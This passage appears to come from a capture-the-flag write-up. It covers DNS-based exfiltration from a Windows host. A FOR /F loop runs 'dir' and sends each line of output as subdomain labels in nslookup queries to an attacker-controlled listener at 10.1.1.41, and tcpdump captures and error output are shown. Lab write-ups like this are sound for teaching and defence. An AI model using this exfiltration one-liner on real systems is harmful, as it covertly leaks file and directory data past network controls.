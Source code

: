 
If I grep out just the A records:

    
    
    11:35:55.296505 IP 10.1.1.153.56259 > 10.1.1.41.53: 2+ A? Volume.in.drive. (33)
    11:35:55.319970 IP 10.1.1.153.56262 > 10.1.1.41.53: 2+ A? Volume.Serial.Number. (38)
    11:35:57.338883 IP 10.1.1.153.56265 > 10.1.1.41.53: 2+ A? Directory.of.C:Users0xdftest. (46)
    11:35:59.364047 IP 10.1.1.153.56268 > 10.1.1.41.53: 2+ A? 02/25/2019.07:04.AM. (37)
    11:36:01.426274 IP 10.1.1.153.56271 > 10.1.1.41.53: 2+ A? 02/25/2019.07:04.AM. (37)
    11:36:03.487602 IP 10.1.1.153.56274 > 10.1.1.41.53: 2+ A? 0.File(s).0. (29)
    11:36:05.527818 IP 10.1.1.153.56277 > 10.1.1.41.53: 2+ A? 2.Dir(s).4,917,108,736. (40)
    

So I’m getting the start of the dir list.

### nslookup Command Output

Now I’ll send full command output over dns. I’ll comment out the terminal
lines at the end of `ethereal_shell.py` that that I’m just running the dns
part, and run it.

Now I’ll try to get the output of a dir command. I’ll use the full 26 tokens,
and run something like this: `FOR /F "tokens=1-26" %a IN ('dir /x .') DO (
nslookup
%a.%b.%c.%d.%e.%f.%g.%h.%i.%j.%k.%l.%m.%n.%o.%p.%q.%r.%s.%t.%u.%v.%w.%x.%y.%z
10.1.1.41`. The idea is to do a `dir` (with `/x` to get long and short file
names), and for each line, break it on whitespace, and send it out with each
word being a subdomain in the dns lookup. But this fails (errors on Windows VM
and nothing on Kali listener):

    
    
    C:\Users\0xdf\test>@echo off & (FOR /F "tokens=1-26" %a IN ('dir /x .') DO ( nslookup %a.%b.%c.%d.%e.%f.%g.%h.%i.%j.%k.%l.%m.%n.%o.%p.%q.%r.%s.%t.%u.%v.%w.%x.%y.%z 10.1.1.41)) & @echo on
    Server:  UnKnown
    Address:  10.1.1.41
    
    *** UnKnown can't find Volume.in.drive.C.has.no.label....................: Unspecified error
    Server:  UnKnown
    Address:  10.1.1.41
    
    *** UnKnown can't find Volume.Serial.Number.is.F06E-7663.....................: Unspecified error
    Server:  UnKnown
    Address:  10.1.1.41
    
    *** UnKnown can't find Directory.of.C:\Users\0xdf\test.......................: Unspecified error
    Server:  UnKnown
    Address:  10.1.1.41
    
    *** UnKnown can't find 02/25/2019.07:04.AM.<DIR>.......................: Unspecified error
    Server:  UnKnown
    Address:  10.1.1.41
    
    *** UnKnown can't find 02/25/2019.07:04.AM.<DIR>........................: Unspecified error
    Server:  UnKnown
    Address:  10.1.1.41
    